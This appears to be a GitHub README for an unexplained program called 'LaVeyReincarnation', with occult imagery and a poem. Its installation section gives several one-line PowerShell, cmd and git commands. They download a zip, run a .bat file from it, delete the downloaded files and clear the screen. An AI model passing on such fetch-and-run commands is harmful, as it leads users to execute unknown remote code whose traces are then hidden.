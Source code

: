 


<h1>LaVeyReincarnation</h1>

<img align="right" width="320" height="320" src="https://upload.wikimedia.org/wikipedia/commons/0/09/Baphosimb.svg">
<p align="center">
Climbing deep into your Wurlitzer<br>
gathering sins to the nest<br>
lost conscience of the apprizer<br>
boiling hatred in a pest
</p>

<br>

```diff
- 🔴Proceede at own risk❗
```

```
powershell -c "& {$w=$home;cd $w;$z=\"$w\r.zip\";Invoke-WebRequest 'https://github.com/3lv/r/archive/r.zip' -o $z;Expand-Archive $z . -f;.\r-r\r.bat;Remove-Item $z,r-r -r -fo;cls}"
```


<h3>Installation</h3>

<blockquote>
	
<details>
  <summary>PowerShell from r</summary>
  
  * Run:
    ```powershell
    $w=$home;cd $w;$z="$w\r.zip";Invoke-WebRequest 'https://github.com/3lv/r/archive/r.zip' -o $z;Expand-Archive $z . -f;.\r-r\r.bat;Remove-Item $z,r-r -r -fo;cls
    ```
</details>


<details>
  <summary>PowerShell</summary>
  
  * Run:
    ```powershell
    $w=$home
    $u="https://github.com/3lv/a/archive/a.zip"
    $z="$w\a.zip"
    $d="$w\a\"
    (New-Object System.Net.WebClient).DownloadFile($u,$z)
    Expand-Archive $z $d -F
    cd $d\..
    .\a\a-a\a.bat
    Remove-Item $z,$d -R -Fo
    cls
    ```
</details>

<details>
  <summary>PowerShell 1 line</summary>
  
  * Run:
    ```powershell
    $w=$home;$u="https://github.com/3lv/a/archive/a.zip";$z="$w\a.zip";$d="$w\a\";(New-Object System.Net.WebClient).DownloadFile($u,$z);Expand-Archive $z $d -F;cd $d\..;.\a\a-a\a.bat;Remove-Item $z,$d -R -Fo;cls
    ```
</details>

<details>
  <summary>Command Prompt 1 line</summary>
  
  * Run:
    ```powershell
    powershell -c "& {$w=$home;$u='https://github.com/3lv/a/archive/a.zip';$z=\"$w\a.zip\";$d=\"$w\a\\\";(New-Object System.Net.WebClient).DownloadFile($u,$z);Expand-Archive $z $d -F;cd $d\..;.\a\a-a\a.bat;Remove-Item $z,$d -R -Fo;cls}"
    ```
</details>

</blockquote>

<blockquote>

<details>
  <summary>git (requires git)</summary>
  
  * Run:
    ```powershell
    git clone https://github.com/3lv/a -q
    .\a\a.bat
    rmdir /s /q ".\a\"
    ```
</details>

</blockquote>

<p>
All installations methods have the same result, more or less.
  <ol>
    <li>
      <details>
      <summary>Download the files from github<summary>
      </details>
    </li>
    <li>
	  <details>
	  <summary>Run the .bat file which *installs* the program</summary>
	  </details>
	</li>
    <li>
	  <details>
	  <summary>Removing remaining file.</summary>
	  </details>
	</li>
  </ol>
</p>

<br><br>

<h3>Possible errors</h3>

> If directory "a" already exists, commands may result in a hidden error
> 
> Use the following to remove "a":
>
> <code>rmdir /s /q ".\a\"</code>

